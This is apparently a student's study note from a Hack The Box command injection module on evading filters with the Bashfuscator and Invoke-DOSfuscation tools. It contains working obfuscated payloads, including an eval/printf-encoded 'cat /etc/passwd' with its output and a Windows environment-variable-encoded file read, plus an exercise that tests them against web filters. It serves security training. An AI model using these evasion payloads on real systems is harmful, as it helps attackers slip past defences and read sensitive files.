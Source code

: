 ```yaml
---
id: Bashfuscator
created_date: 03/11/2022
updated_date: 03/11/2022
type: note
---
```


#  Sans
- **🏷️Tags** :  #11-2022 #injection #ofuscation #bash #payloads #browser 

## 📝 Notes

# Evasion Tools

---

If we are dealing with advanced security tools, we may not be able to use basic, manual obfuscation techniques. In such cases, it may be best to resort to automated obfuscation tools. This section will discuss a couple of examples of these types of tools, one for `Linux` and another for `Windows.`

---

## Linux (Bashfuscator)

A handy tool we can utilize for obfuscating bash commands is [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator). We can clone the repository from GitHub and then install its requirements, as follows:

```shell-session
GabrielQK@htb[/htb]$ git clone https://github.com/Bashfuscator/Bashfuscator
GabrielQK@htb[/htb]$ cd Bashfuscator
GabrielQK@htb[/htb]$ python3 setup.py install --user
```

Once we have the tool set up, we can start using it from the `./bashfuscator/bin/` directory. There are many flags we can use with the tool to fine-tune our final obfuscated command, as we can see in the `-h` help menu:

```shell-session
GabrielQK@htb[/htb]$ cd ./bashfuscator/bin/
GabrielQK@htb[/htb]$ ./bashfuscator -h

usage: bashfuscator [-h] [-l] ...SNIP...

optional arguments:
  -h, --help            show this help message and exit

Program Options:
  -l, --list            List all the available obfuscators, compressors, and encoders
  -c COMMAND, --command COMMAND
                        Command to obfuscate
...SNIP...
```

We can start by simply providing the command we want to obfuscate with the `-c` flag:

```shell-session
GabrielQK@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd'

[+] Mutators used: Token/ForCode -> Command/Reverse
[+] Payload:
 ${*/+27\[X\(} ...SNIP...  ${*~}   
[+] Payload size: 1664 characters
```

However, running the tool this way will randomly pick an obfuscation technique, which can output a command length ranging from a few hundred characters to over a million characters! So, we can use some of the flags from the help menu to produce a shorter and simpler obfuscated command, as follows:

```shell-session
GabrielQK@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1

[+] Mutators used: Token/ForCode
[+] Payload:
eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"
[+] Payload size: 104 characters
```

We can now test the outputted command with `bash -c ''`, to see whether it does execute the intended command:

```shell-session
GabrielQK@htb[/htb]$ bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'

root:x:0:0:root:/root:/bin/bash
...SNIP...
```

We can see that the obfuscated command works, all while looking completely obfuscated, and does not resemble our original command. We may also notice that the tool utilizes many obfuscation techniques, including the ones we previously discussed and many others.

Exercise: Try testing the above command with our web application, to see if it can successfully bypass the filters. If it does not, can you guess why? And can you make the tool produce a working payload?

---

## Windows (DOSfuscation)

There is also a very similar tool that we can use for Windows called [DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation). Unlike `Bashfuscator`, this is an interactive tool, as we run it once and interact with it to get the desired obfuscated command. We can once again clone the tool from GitHub and then invoke it through PowerShell, as follows:

```powershell-session
PS C:\htb> git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
PS C:\htb> cd Invoke-DOSfuscation
PS C:\htb> Import-Module .\Invoke-DOSfuscation.psd1
PS C:\htb> Invoke-DOSfuscation
Invoke-DOSfuscation> help

HELP MENU :: Available options shown below:
[*]  Tutorial of how to use this tool             TUTORIAL
...SNIP...

Choose one of the below options:
[*] BINARY      Obfuscated binary syntax for cmd.exe & powershell.exe
[*] ENCODING    Environment variable encoding
[*] PAYLOAD     Obfuscated payload via DOSfuscation
```

We can even use `tutorial` to see an example of how the tool works. Once we are set, we can start using the tool, as follows:

```powershell-session
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1

...SNIP...
Result:
typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt
```

Finally, we can try running the obfuscated command on `CMD`, and we see that it indeed works as expected:

```cmd-session
C:\htb> typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt

test_flag
```

Tip: If we do not have access to a Windows VM, we can run the above code on a Linux VM through `pwsh`. Run `pwsh`, and then follow the exact same command from above. This tool is installed by default in your `Pwnbox` instance. You can also find installation instructions at this [link](https://docs.microsoft.com/en-us/powershell/scripting/install/installing-powershell-core-on-linux).


## Questions/Thoughts


## 🔗 Links
- 